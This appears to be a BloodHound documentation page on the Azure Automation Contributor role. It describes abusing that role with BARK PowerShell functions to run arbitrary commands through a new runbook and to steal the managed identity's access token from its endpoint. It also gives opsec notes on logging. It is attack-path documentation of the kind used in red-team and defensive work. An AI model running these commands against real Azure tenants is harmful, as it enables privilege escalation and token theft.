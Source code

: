 ---
title: AZAutomationContributor
---

<Frame>
  <img src="/assets/image-2-1.png"/>
</Frame>

The Azure Automation Contributor role grants full control of the target Azure Automation Account. This includes the ability to execute arbitrary commands on the Automation Account.

## Abuse Info

You can use BARK’s New-AzureAutomationAccountRunBook and Get-AzureAutomationAccountRunBookOutput functions to execute arbitrary commands against the target Automation Account.

These functions require you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to add or modify and run Automation Account run books. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```

Now you can use BARK’s New-AzureAutomationAccountRunBook function to add a new runbook to the target Automation Account, specifying a command to execute using the -Script parameter:

```bash
New-AzureAutomationAccountRunBook `
    -Token $ARMToken `
    -RunBookName "MyCoolRunBook" `
    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" `
    -Script "whoami"
```
After adding the new runbook, you must execute it and fetch its output. You can do this automatically with BARK’s Get-AzureAutomationAccountRunBookOutput function:

```bash
Get-AzureAutomationAccountRunBookOutput `
    -Token $ARMToken `
    -RunBookName "MyCoolRunBook" `
    -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"
```
If the Automation Account has a managed identity assignment, you can use these two functions to retrieve a JWT for the service principal like this:

```bash
$Script = $tokenAuthURI = $env:MSI_ENDPOINT + "?resource=https://graph.microsoft.com/&api-version=2017-09-01"; $tokenResponse = Invoke-RestMethod -Method Get -Headers @{"Secret"="$env:MSI_SECRET"} -Uri $tokenAuthURI; $tokenResponse.access_token
New-AzureAutomationAccountRunBook -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount" -Script $Script
Get-AzureAutomationAccountRunBookOutput -Token $ARMToken -RunBookName "MyCoolRunBook" -AutomationAccountPath "https://management.azure.com/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourceGroups/AutomationAccts/providers/Microsoft.Automation/automationAccounts/MyCoolAutomationAccount"
```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a](https://posts.specterops.io/managed-identity-attack-paths-part-1-automation-accounts-82667d17187a)
